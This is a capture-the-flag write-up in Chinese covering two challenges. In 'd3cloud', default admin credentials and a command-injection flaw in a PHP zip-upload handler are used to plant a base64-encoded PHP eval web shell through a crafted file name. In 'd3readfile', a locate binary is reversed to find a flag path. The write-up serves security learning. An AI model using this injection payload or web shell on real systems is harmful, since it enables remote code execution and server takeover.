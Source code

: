 ## Web
### d3cloud
访问/admin后台 admin:admin登录管理员账号
在侧边栏有文件管理，可以上传zip包，同时下载文件`FilesystemAdapter.php`
对文件进行代码审计后,在这里的解压存在命令注入

```php
public function putFileAs($path, $file, $name, $options = [])
    {
        $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
        $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
        if (!in_array($file_type, $supported_file)) {
            return false;
        }
        $stream = fopen($file->getRealPath(), 'r+');
        $result = $this->put(
            $path = trim($path.'/'.$name, '/'), $stream, $options
        );
        if (is_resource($stream)) {
            fclose($stream);
        }
        if($file->getClientOriginalExtension() === "zip") {
            $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
            pclose($fs);
        }
        return $result ? $path : false;
    }
```

`1.zip || echo PD9waHAgZXZhbCgkX1JFUVVFU1RbInd1d3Vtb25zdGVyIl0pO3BocGluZm8oKTs= | base64 -d > shell.php # .zip`

![](attachments/Pasted%20image%2020230506152056.png)


直接访问shell.php

![](attachments/Pasted%20image%2020230506152206.png)

### Ezjava


## Misc
### d3readfile
在一个日志文件里面发现了有下载locate的历史记录，后面把locate拖出来做逆向

![](attachments/Pasted%20image%2020230503132422.png)

读取对应路径后发现

![](attachments/Pasted%20image%2020230503133013.png)

去除！后 `/opt/vwMDP4unF4cvqHrztduv4hpCw9H9Sdfh/UuRez4TstSQEXZpK74VoKWQc2KBubVZi/LcXAfeaD2KLrV8zBpuPdgsbVpGqLcykz/flag_1s_h3re_233`

![](attachments/Pasted%20image%2020230503133245.png)
